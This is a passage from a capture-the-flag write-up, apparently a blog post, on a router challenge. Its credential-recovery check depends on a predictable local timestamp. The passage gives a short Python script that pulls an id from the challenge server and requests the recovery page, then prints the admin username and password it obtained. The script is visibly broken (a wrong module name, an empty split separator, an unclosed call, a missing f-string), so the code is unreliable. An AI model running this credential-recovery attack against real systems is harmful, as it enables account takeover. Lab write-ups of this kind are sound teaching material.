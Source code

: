 In these first lines, there're nothing until I saw $timestamp variable and all below. In $timestamp variable, it will return the localtime and in the below, they check $timestamp, if yes they will return username and password. Why is so weak mannnnnnnnnnnnnnnnnn???????? Because taking localtime is fucking easy. From here I decided to write a Python script for that:<br>

```
import requests
r = request.get("https://thecybercoopctf-secure-router.chals.io/MCU_serial_forgot_password.pl")

t1 = r.text.split("id=")[1].split("")[0]
print(t1)
rr = request.get("https://thecybercoopctf-secure-router.chals.io/MCU_recover_credentials.pl?id={t1}"
print(rr.text)
```

After I had run script, I got my result: 3491221442023 and my credentials: username=admin; password=ridingexpresstrains

Log in and we get the flag:<br>

![]({{site.url}}/assets/images/thecybercoopctf/7.png)
